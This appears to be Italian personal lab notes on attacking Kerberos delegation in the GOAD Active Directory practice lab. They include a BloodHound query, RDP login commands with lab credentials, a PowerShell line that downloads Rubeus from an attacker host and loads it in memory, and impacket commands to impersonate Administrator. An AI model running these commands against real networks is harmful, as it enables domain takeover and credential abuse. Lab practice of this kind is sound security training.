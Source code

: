### **UNCOSTRAINED DELEGATIONS**

Per trovarle all'interno di BloodHound puoi selezionare la query precompilata o lanciare la seguente
```
MATCH (c {unconstraineddelegation:true}) return c
```
![[Pasted image 20230911104551.png]]
Per exploitarla accediamo al pc con uno degli account ottenuti precedentemente
```bash
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert-ignore
```
e bypassiamo l'amsi come abbiamo già fatto
Poi avviamo Rubeus sulla macchina
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.6:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```
![[Pasted image 20230911105711.png]]
[GOAD - part 10 - Delegations | Mayfly (mayfly277.github.io)](https://mayfly277.github.io/posts/GOADv2-pwning-part10/)
Il resto dell'attacco non posso farlo perchè non mi funziona rubeus
### **CONSTRAINED DELEGATION**
Puoi trovare tutte le constrained delegation con impacket
```bash
impacket-findDelegation NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```
![[Pasted image 20230911111407.png]]
*Con protocol transition*

Per exploitarlo isogna prima chiedere un TGT per l'utente e poi esguire S4U2Self seguito d S4U2Proxy per impersonare un admin
```bash
impacket-getST -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```
![[Pasted image 20230911111655.png]]
*Senza protocol transition*

